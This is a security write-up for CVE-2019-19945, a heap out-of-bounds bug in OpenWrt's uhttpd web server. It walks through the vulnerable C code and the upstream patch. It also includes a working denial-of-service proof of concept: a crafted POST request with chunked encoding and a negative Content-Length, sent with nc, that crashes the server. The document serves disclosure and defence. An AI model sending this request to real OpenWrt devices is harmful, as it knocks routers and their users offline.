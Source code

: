 # OpenWrt uhttpd DoS Writeup

[LevitatingLion](https://twitter.com/LevitatingLion) found a bug in uhttpd, leading to out-of-bounds access to a heap buffer and subsequent crash. The bug was reported to OpenWrt and assigned [CVE-2019-19945](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-19945), OpenWrt published a [security advisory](https://openwrt.org/advisory/2020-01-13-1) as well. The issue was fixed in OpenWrt version 18.06.6, and had been present in all prior versions since January 2013.

The bug can be triggered with an HTTP POST request to a CGI script specifying both `Transfer-Encoding: chunked` and a large negative `Content-Length`. The negative content length is assigned to `r->content_length` in `client_parse_header` (client.c, line 348) and passed as a negative read length to `ustream_consume` in `client_poll_post_data` (client.c, line 426).

Below you find a detailed explanation of the bug, the proof of concept and OpenWrt's patch.

## The Bug

The bug was in `client_parse_header` ([client.c, line 347](https://git.openwrt.org/?p=project/uhttpd.git;a=blob;f=client.c;h=5913553999eac795dacf68c1adc63355e329d2bc;hb=6b03f9605323df23d12e3876feb466f53f8d50c4#l347)):

```c
} else if (!strcmp(data, "content-length")) {
    r->content_length = strtoul(val, &err, 0);
    if (err && *err) {
        uh_header_error(cl, 400, "Bad Request");
        return;
    }
} else if (!strcmp(data, "transfer-encoding")) {
```

`strtoul` is used to parse the content length, which returns an `unsigned long`. However, it is assigned to `r->content_length`, which is an `int`, so the value assigned may actually be negative. `r->content_length` is next used in `client_poll_post_data` ([line 405](https://git.openwrt.org/?p=project/uhttpd.git;a=blob;f=client.c;h=5913553999eac795dacf68c1adc63355e329d2bc;hb=6b03f9605323df23d12e3876feb466f53f8d50c4#l405)):

```c
while (1) {
    // ...

    buf = ustream_get_read_buf(cl->us, &len);  // [4], line 410
    // ...

    cur_len = min(r->content_length, len);  // [1], line 417
    if (cur_len) {
        // ...

        r->content_length -= cur_len;  // [3], line 425
        ustream_consume(cl->us, cur_len);  // [2], line 426
        continue;
    }

    if (!r->transfer_chunked)  // [5], line 430
        break;

    // ...

    sep = strstr(buf + offset, "\r\n");  // [6], line 436

    // ...
}
```

The negative `r->content_length` is always smaller than the positive `len` of the buffer at \[1\], so the negative value is passed to `ustream_consume` at \[2\]. This makes the internal ustream buffer point out-of-bounds. On the next iteration of the outer loop, `ustream_get_read_buf` retrieves this out-of-bounds pointer at \[4\]. The if-clause is skipped, because `r->content_length` is now zero (it was subtracted from itself at \[3\]). The request specified `Transfer-Encoding: chunked`, so the `break` at \[5\] is skipped and the call to `strstr` at \[6\] is reached, which dereferences the out-of-bounds pointer, causing a crash.

## Proof of Concept

```sh
$ cat crash.poc    # crlf line endings, ends with 3 line endings
POST /cgi-bin/luci HTTP/1.0
Transfer-Encoding: chunked
Content-Length: -100000


$ mkdir -p cgi-bin; touch cgi-bin/luci; chmod +x cgi-bin/luci    # create cgi script
$ ./uhttpd -f -p 127.0.0.1:8000 &    # start uhttpd
[1] 748
$ nc 127.0.0.1 8000 < crash.poc    # send poc to uhttpd
[1]+ Segmentation fault (core dumped) ./uhttpd -f -p 127.0.0.1:8000    # uhttpd crashes
$
```

## Impact

As demonstrated by the proof of concept above, this vulnerability can be used to crash uhttpd, leading to denial of service.

Unsuccessful attempts were made to turn this bug from a denial of service into an information leak or authentication bypass. This would be possible if we could make the out-of-bounds pointer point to a previous request on the heap, but that is complicated by two factors:

- The heap layout is hard to control remotely

- The data read out-of-bounds is not returned to the attacker, but passed to the CGI program

Nonetheless it could maybe be possible to make uhttpd "replay" a previous authentication to e.g. luci, given precise timing and an otherwise silent network.

## The Patch

The maintainers of OpenWrt promptly [patched the vulnerability](https://git.openwrt.org/?p=project/uhttpd.git;a=commitdiff;h=5f9ae5738372aaa3a6be2f0a278933563d3f191a), on the same day as it was reported. The bug is fixed by checking that the content length is non-negative after it is parsed:

```diff
--- a/client.c
+++ b/client.c
@@ -346,7 +346,7 @@ static void client_parse_header(struct client *cl, char *data)
                }
        } else if (!strcmp(data, "content-length")) {
                r->content_length = strtoul(val, &err, 0);
-               if (err && *err) {
+               if ((err && *err) || r->content_length < 0) {
                        uh_header_error(cl, 400, "Bad Request");
                        return;
                }
@@ -444,7 +444,7 @@ void client_poll_post_data(struct client *cl)
                ustream_consume(cl->us, sep + 2 - buf);

                /* invalid chunk length */
-               if (sep && *sep) {
+               if ((sep && *sep) || r->content_length < 0) {
                        r->content_length = 0;
                        r->transfer_chunked = 0;
                        break;
```
